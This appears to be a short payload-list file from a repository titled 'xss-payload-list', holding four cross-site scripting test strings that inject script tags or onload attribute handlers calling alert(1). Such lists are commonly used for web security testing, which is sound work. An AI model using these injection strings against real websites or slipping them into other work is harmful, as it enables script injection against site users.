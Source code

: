 # xss-payload-list

<script>alert(1)</script>
“><script>alert(1)</script>
ds" onload="alert(1)
ds" onload="alert(1)"
